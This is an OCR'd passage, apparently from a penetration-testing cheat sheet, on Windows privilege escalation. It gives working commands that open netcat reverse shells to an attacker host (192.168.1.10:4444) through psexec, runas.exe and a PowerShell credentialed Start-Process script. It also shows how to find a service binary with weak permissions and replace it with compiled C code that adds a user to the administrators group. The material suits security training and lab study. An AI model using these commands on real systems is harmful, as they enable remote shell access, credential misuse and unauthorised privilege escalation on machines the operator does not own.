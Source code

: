                C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

               $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:

             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`


-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

-   Compile a custom add user command in windows using C  

             root@kali:~\# cat useradd.c  
             #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
             int main ()  
             {  
             int i;  
             i=system ("net localgroup administrators low /add");  
             return 0;  
             }  

             i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
